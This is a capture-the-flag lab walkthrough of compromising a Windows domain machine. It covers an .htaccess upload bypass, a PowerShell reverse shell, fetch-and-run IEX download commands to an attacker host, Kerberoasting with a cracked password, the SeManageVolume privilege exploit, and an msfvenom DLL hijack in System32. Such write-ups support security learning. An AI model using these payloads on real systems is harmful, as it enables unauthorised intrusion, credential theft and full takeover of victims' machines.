 ```yaml
---
description: >-
  Leveraged SeManageVolumePrivilege and DLL hijacking permission to escalate
  privileges.
---
```


# 🔥 Access

## Summary

* The machine had a file upload functionality but implemented protections that denied uploading files with a .php extension.
* The web application allowed the upload of .htaccess files, enabling a bypass of these defenses.
* Uploading a webshell provided access to the <mark style="color:red;">svc\_apache</mark> user.
* Another user, svc\_mssql, was identified on the machine, and an SPN was present for this user.
  * This situation was ideal for attempting Kerberoasting.
* Rubeus.exe was used to perform Kerberoasting, successfully retrieving the password for the svc\_mssql user.
* The svc\_mssql user had the <mark style="color:red;">SeManageVolumePrivilege</mark>, which was exploited using <mark style="color:green;">seManageVolumnExploit.exe</mark> to gain administrative write privileges on the entire machine.
* DLL injection was used to inject a malicious DLL, resulting in a reverse shell as the NT user.



## Let's unpack

### Enumeration

```bash
# Nmap
sudo nmap -sC -sN -A -oN nmapFull -p- -A 192.168.176.187
 
Nmap scan report for 192.168.176.187
Host is up (0.073s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
|_http-title: Access The Event
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-27 14:48:30Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
49790/tcp open  msrpc         Microsoft Windows RPC
```

A web app on port 80 had upload functionality and implemented all possible protections to prevent Arbitrary file upload issues. However, it also supported the upload of a <mark style="background-color:red;">.htaccess</mark> file.

Bypassing PHP protection by uploading `.htaccess` file

{% embed url="http://michalszalkowski.com/security/pentesting-web/file-upload-bypass-htaccess/" %}

```bash
cat .htaccess 
AddType application/x-httpd-php .evil
```

on uploading this file, `.evil` extension will be interpreted as php and will get executed.&#x20;

### Initial Foothold

Let's get reverse shell using above findings

```bash
## 1. Executing the following command in our webshell

# ps1 reverse shell code
$client = New-Object System.Net.Sockets.TCPClient("192.168.45.209",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

# spawning server
python3 -m http.server 8080

## 2. Executing the following command in our webshell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.209:8000/exp.ps1')"

# URL encode the above command to send it through thr webshell
powershell%20-c%20%22IEX%28New-Object%20System.Net.WebClient%29.DownloadString%28%27http%3A%2F%2F192.168.45.209%3A8000%2Fexp.ps1%27%29%22%0A

# In parallel, run netcat to catch the reverse shell
nc -nlvp 4444

# Let's Execute
curl http://192.168.161.187/uploads/ex.php.evil?cmd=powershell%20-c%20%22IEX%28New-Object%20System.Net.WebClient%29.DownloadString%28%27http%3A%2F%2F192.168.45.231%3A8000%2Fexp.ps1%27%29%22%0A
```

### Privilege Escalation/Lateral Movement

On getting a reverse shell, I found a user list

<pre class="language-bash"><code class="lang-bash"> net users
<strong>>
</strong><strong>Administrator            Guest                    krbtgt                   
</strong>svc_apache               svc_mssql  
</code></pre>

Found SPN of svc\_mssql service, which indicates that we could perform Kerberosting

```powershell
# Using Rubeus.exe to perform Kerberoasting
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast

# Using John to crack the hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash


# Got the password of svc_mssql
trustno1
```

Getting a shell as svc\_mssql using RunasCs as Remote access is disabled for this user.&#x20;

#### Lateral Movement (svc\_apache -> svc\_mssql)

[https://github.com/antonioCoco/RunasCs](https://github.com/antonioCoco/RunasCs)

```powershell
# running ps1 script of runAscs
> 
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"

# using powercat to get reverse shell
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "Powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.231:8000/powercat.ps1');powercat -c 192.168.45.231 -p 5555 -e cmd"
```



#### PrivEsc (svc\_mssql -> administrator)

```powershell
# svc_mssql had the following privileges
# whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State   
============================= ================================ ========
SeMachineAccountPrivilege     Add workstations to domain       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Disabled


https://github.com/CsEnox/SeManageVolumeExploit
```



We are going to escalate privileges using the <mark style="background-color:red;">SeManageVolumePrivilege</mark> permission.

{% embed url="https://github.com/CsEnox/SeManageVolumeExploit" %}

<details>

<summary>TL'DR</summary>

If a user has privileges, we can use the following technique to get elevated shell.

### Background

The general idea is that the attacker can leverage this particular privilege with the exploitation to get full control over "C:\\", and then it can craft a ".dll" file and place it in somewhere "C:\Windows\System32\\" to trigger the payload as root.

### Technique

On executing the exploit, we can write anything in the <mark style="color:red;">C:\\</mark> directory. A simple Priv escalation would be to add a malicious DLL that would give us an elevated reverse shell on execution.

</details>

Download [this](https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public) exploit and transfer it to victim machine

```bash
# Transfer and execute the exploit to window machine
.\SeManageVolumeExploit.exe

# on executingm, we should be able to write anything in C:\windows\system32\*
icacls.exe C:\Windows\System32\
```

Now, we need to create a malicious DLL that would give us a reverse shell

```bash
# using msfvenom
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.49.231 LPORT=6666 -f dll -o tzres.dll


# start nc listner on 6666
nc -nlvp 6666
```

Now, place this DLL in such a place where executing it would be simple, for instance on running `systeminfo` command we should be able to get a reverse shell.

we can move the DLL to `C:\\windows\\system32\\wbem` directory

```bash
copy tzres.dll C:\Windows\System32\wbem\

# just exeucte the systeminfo command, you will get a reverse shell as Admin
```

Refer to this amazing ddlref created by S1ren:

{% embed url="https://sirensecurity.io/blog/dllref/" %}

<mark style="background-color:red;">dllref</mark> is a list of DLLs that can be used for privilege escalation. This list not only includes various options but also the trigger points for each DLL. In our case, other DLLs can be used instead of <mark style="color:red;">tzres.dll</mark> to achieve the reverse shell trigger.



